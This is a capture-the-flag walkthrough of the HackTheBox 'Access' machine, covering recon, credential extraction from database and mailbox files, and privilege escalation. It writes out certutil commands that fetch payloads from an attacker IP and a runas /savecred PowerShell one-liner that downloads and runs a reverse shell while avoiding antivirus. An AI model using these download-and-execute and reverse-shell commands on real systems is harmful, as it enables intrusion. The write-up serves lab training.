



Greetings everyone ! Today I would like to present my analysis, perspective and methodology on Access machine from HackThebox
Let's add our host ip addresss to /etc/hosts file in order to interact with target host easily.
Run the command I embedded below ->
nano /etc/hosts
I prefer to conduct both manual & automated reconnaissance simultaneously. While fuzzing tools are processing the target, at the same time I manually check whether application runs on HTTP/HTTPS ports.
To understand my connectivity, I sent ICMP echo packets (ping) to the target ->
Reconnaissance
Apply GoBuster & Dirsearch at the same time with different terminal sessions ->
gobuster dir -u http://access.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r
It will be great to use GoBuster with -r parameter since it also tries deepen directories if it can find properly.
Meanwhile, I manually checked the page via visiting http://access.htb ->
My wordlist was not terrible in most cases ,but in this scenario it could not find juicy endpoints. Therefore, I used raft-large-files-lowercase.txt.
According to whatweb, application deployed on IIS 7.5 ->
Now, we have to open another corridor through host port discovery phase ->
sudo nmap -sV -sC -Pn access.htb
The host was deployed on Windows XP :D
In most cases, Windows operating system enables users to contact directly to SMB protocol. However, as you can see the service discovery results, we have Telnet protocol active. It means it will be suitable to move forward it ,yet Telnet asked me credentials to access the service.
Full scope port scan ->
sudo nmap -sV -Pn --script=vuln access.htb
Regarding to the above port scanning result, I decided to FTP protocol because of the message appeared on terminal "Can't directory listing" ->
ftp access.htb was enough to reach FTP service. Simply, understand the anonymous user from nmap output then connect via anon user ->
I downloaded both files via GET command in FTP respectively ->
Let's analyze the files that we downloaded:
In order to read corrupted database file, I found a tool for .mdb database file ->
https://github.com/AlexeyFedorchak/mdb-tools
However, the tool was not able to identify or extract data about our .mdb file ->

PST files used in mainly an outlook email format.
The result was the same. Moreover, I utilized 7z tool to extract archived data ->
Now we understand that we have to bruteforce zip file with john or hashcat ->
I found a great article about password cracking to clarify how to crack zip passwords
https://www.webasha.com/blog/password-cracking-with-hashcat-techniques-and-best-practices-577
I did not find regarded password for zip file ->
Let me extract strings in backup.mdb file since I could not see any match with seclist's large dataset. Therefore, I want to extract strings in db file.
strings -n 8 backup.mdb
It did not work at all :( ->
I wanted to detect the type of file ,so run file command ->

After all, I recognized that I never switch on binary mode to retrieve fully integral part of my files ,so let's move binary mode and download files again ->
let's run mdbtables again:
Gotcha ! ! !
Extract credentials from auth_user table ->
I found a page, automatically parses mdb database files & construct it in a reasonable way ->
https://www.mdbopener.com/
Now, as you can see below, I successfully see the credentials for target
Now let's try to extract zip file via given credentials ->
Second password was the correct one ->
data[0] = { id: 0, "id": "25", "username": "admin", "password": "admin", "Status": "1", "last_login": "08/23/18 21:11:47", "RoleID": "26", "Remark": "", };
data[1] = { id: 1, "id": "27", "username": "engineer", "password": "access4u@security", "Status": "1", "last_login": "08/23/18 21:13:36", "RoleID": "26", "Remark": "", };
data[2] = { id: 2, "id": "28", "username": "backup_admin", "password": "admin", "Status": "1", "last_login": "08/23/18 21:14:02", "RoleID": "26", "Remark": "", };
Now try the tool I highlighted ->
Straightforwardly, I just run the tool without parameters.
readpst 'Access Control.pst'
cat 'Access Control.pst' to read the content of the pst file ->
Observe the account's password from above image.
Now apply credentials on telnet protocol. At first, I was wrong with the password because I tried the password in a wrong way 4Cc3ssC0ntr0ller. You have to use without dot.
4Cc3ssC0ntr0ller
telnet access.htb 23
Majority of the times, user flag mainly located at Desktop folder in Windows OS ->

type user.txt
After I submitted user flag, I did not understand my privileges. That's why, I moved Administrator user's directory ,but it did not work.
Let's enumerate system ->
systeminfo ->
The crucial aspect will be OS kernel version & type of Windows
Hacktricks will help you fully especially for reconnaissance in Windows systems ->
https://hacktricks.boitatech.com.br/windows/windows-local-privilege-escalation
Let me also check Access Tokens -> https://hacktricks.boitatech.com.br/windows/windows-local-privilege-escalation/access-tokens
whoami /all
After my couple of attempts, I discovered an exploit on exploitdb just by searchin my Windows version: MS11-046
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/CVE-2011-1249.c
I could not send exploit to Temp folder. Instead I tried & run in my current user's Desktop folder. However, group policies restricted me to run exploit.
certutil.exe -urlcache -f http://10.10.14.45:1234/MS11-046.exe MS11-046.exe
Let me also send Winpeas ->
certutil.exe -urlcache -f http://10.10.14.45:1234/MS11-046.exe MS11-046.exe
I discovered the bit version of Windows x64 then I will upload Winpeasx64.exe
certutil.exe -urlcache -f http://10.10.14.45:1234/winPEASx64.exe winpeas.exe
It was not possible to run anything on my directory ->

Enumerating user accounts can be suitable to understand hierarchy in the host ->
net user
Moreover, I want to see Public directory whether there is useful information or not ->
Even though the Desktop folder hidden, I hooked the directory & encountered a file formatted in lnk extension depicts like a shortcut file. Then I saw a long command showing that whenever user run this program then it will be run with administrator privileges via runas .

The absolute path points out the full path of runas.exe and the security program located in the system. Let me try something like this ->
runas.exe /user:ACCESS\Administrator /savecred cmd.exe
Now it works ,but I could not switch the administrator cmd shell ->
What about reverse shell ?
Since I was not able to run Powershell due to the group policies enforced by Windows Server 2008 then I want to deploy Powershell reverse shell ->
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
Discover how to build powershell script ?
https://github.com/ivan-sincek/powershell-reverse-tcp
Now send the payload target & call listener on your attacker machine ->
I would like to use Penelope listener since it is more interactive compared to generic netcat listener.
https://github.com/brightio/penelope
1) penelope 1984
2) certutil.exe -urlcache -f http://10.10.14.45:1234/onurshell.ps1 onurshell.ps1
3) runas.exe /user:ACCESS\Administrator /savecred "powershell.exe -ExecutionPolicy Unrestricted -File .\onurshell.ps1"
After my attempts, I could not get shell and run the powershell as Administrator ->
runas.exe /user:ACCESS\Administrator /savecred "powershell.exe -ExecutionPolicy Unrestricted -File C:\Users\security\onurshell.ps1"
In order to make ready to run our Nishang's Powershell script, you must add additional function call for reverse listener that we implemented via Penelope. Hence, I began to modify & add the necessary command.
Because I wanted to catch packet in my host machine, I point out my ip address & binding port ->

You must comply with the manual scripting phase before you catch reverse shell connection. ->
One-Liner shell script combination would work because I could not run in the memory when I downloaded the direct payload.
Reference: https://github.com/samratashok/nishang
In my enumeration session, I recognized that system has antivirus enabled (Windows Defender). I obsessed with my execution policies ,so I found how to detect any security mechanisms enabled by system.
https://nored0x.github.io/red-teaming/windows-enumeration/
Got it !
It is clear that direct memory execution of the payload did not work because of the AV protection. Therefore, one-liner fully one shot reverse shell payload would work.
I was going to run the command as ->
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.45:1234/onurshell2.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1984
Let's combine it with runas ->
runas.exe /user:ACCESS\Administrator /savecred "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.45:1234/onurshell2.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1984"
After my reverse shell command execution through runas, first it directly downloaded a file calleed onurshell2.ps1 in my host machine then permanently run the script without writing the process to the memory. That's why, we got shell since AV (antivirus) did not create alarm for our activity.
At the same time reverse shell handler (penelope), established a administrative connection with my host. You can directly understand via the path C:\Windows\system32 indicating the system path. Only the administrative privileges can access to the system path. Let's check whether my assumption correct or not :)
Now reach out the root flag in cd ../../Users/administrator and retrieve in Desktop ->